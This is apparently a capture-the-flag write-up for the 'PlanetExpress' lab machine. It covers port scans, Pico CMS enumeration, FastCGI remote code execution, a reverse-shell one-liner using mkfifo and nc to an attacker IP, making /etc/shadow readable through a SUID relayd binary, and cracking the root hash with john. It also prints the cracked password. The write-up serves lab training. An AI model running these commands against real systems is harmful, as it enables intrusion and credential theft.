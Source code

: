 # PlanetExpress

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:27 +08
Nmap scan report for 192.168.183.205
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9000/tcp open  cslistener

Nmap done: 1 IP address (1 host up) scanned in 35.83 seconds
```

Did a detailed scan to enumerate port 80 and 9000 further:

```
$ sudo nmap -p 80,9000 -sC -sV -O --min-rate 4000 -Pn 192.168.183.205
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 22:31 +08
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: Pico CMS
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener?
```

Port 8000 was running Pico CMS, which does have some exploits.&#x20;

### Web Enum --> PHPInfo

Port 80 had a countdown:

<figure><img src="../../../.gitbook/assets/image (985).png" alt=""><figcaption></figcaption></figure>

There isn't much on this page, so we can do a `gobuster` directory scan with the PHP extension since PicoCMS was being used:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.205/ -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.205/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/09 22:35:49 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5176]
/content              (Status: 301) [Size: 320] [--> http://192.168.183.205/content/]
/themes               (Status: 301) [Size: 319] [--> http://192.168.183.205/themes/]
/assets               (Status: 301) [Size: 319] [--> http://192.168.183.205/assets/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.183.205/plugins/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.183.205/vendor/]
/config               (Status: 301) [Size: 319] [--> http://192.168.183.205/config/]
```

Using the PicoCMS Github repository, we can view more about these directories.&#x20;

{% embed url="https://github.com/picocms/Pico/tree/master" %}

Viewing the `config.yml` file shows that this is indeed running PicoCMS:

```
$ curl http://192.168.183.205/config/config.yml
##
# Basic
#
site_title: PlanetExpress
base_url: ~

rewrite_url: ~
debug: true
timezone: ~
locale: ~

##
# Theme
<TRUNCATED>
## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
```

There's also a custom plugin developed for this website, and we can visit that at `plugins/PicoTest.php` based on the Github repo. This would show us the PHPInfo of the site:

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

Here, we can find that `/var/www/html/planetexpress` is the document root. Also, we can find a lot of disabled functions:

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

### FastCGI --> RCE

There wasn't much else on the webpage for us to test, however there was still port 9000. Googling it revealed that it was running FastCGI:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

There are RCE exploits for this service [here](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75). The script given allows us to inject PHP code into the service to be run. However, there are a lot of functions that are disabled based on `PicoTest.php`. I checked the functions against all functions that are able to execute system commands via PHP, and `passthru` was not disabled.

Using `passthru` and the document root directory allows us to get RCE:

<figure><img src="../../../.gitbook/assets/image (1215).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell via the `mkfifo` one-liner.&#x20;

{% code overflow="wrap" %}
```
$ python2 exploit.py -c '<?php passthru("bash -c \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.218 80 > /tmp/f\""); ?>' 192.168.183.205 /var/www/html/planetexpress/plugins/PicoTest.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Relayd SUID --> Shadw Hash

I searched for SUID binaries and found one that stood out:

```
$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/sbin/relayd
<TRUNCATED>
```

We can check the help menu for this :

```
www-data@planetexpress:/home/astro$ /usr/sbin/relayd --help
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port
```

The option that stood out the most to me was the `-C` flag, because it allows us to read from files. I attempted to read the `/etc/shadow` file:

```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
[ERR] 2023-07-09 10:53:48 config.cpp:1539 write
[ERR] 2023-07-09 10:53:48 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2023-07-09 10:53:48 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2023-07-09 10:53:48 invalid config file

www-data@planetexpress:/tmp$ ls -la /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10  2022 /etc/shadow
```

This made the file readable by all. We can then grab the `root` hash:

{% code overflow="wrap" %}
```
www-data@planetexpress:/tmp$ cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```
{% endcode %}

We just need to put this hash and the entry for `root` in `/etc/passwd` into another file, then run `unshadow` to convert it to a crackable hash.

{% code overflow="wrap" %}
```
$ cat hash  
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
$ cat passwd       
root:x:0:0:root:/root:/bin/bash
$ unshadow passwd hash
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:0:0:root:/root:/bin/bash
```
{% endcode %}

Then, we can crack it in `john` (or in my case, just show because I cracked it before):

```
$ john --show root_hash                                     
root:neverwant2saygoodbye:0:0:root:/root:/bin/bash

1 password hash cracked, 0 left
```

We can then `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (1567).png" alt=""><figcaption></figcaption></figure>

Rooted!
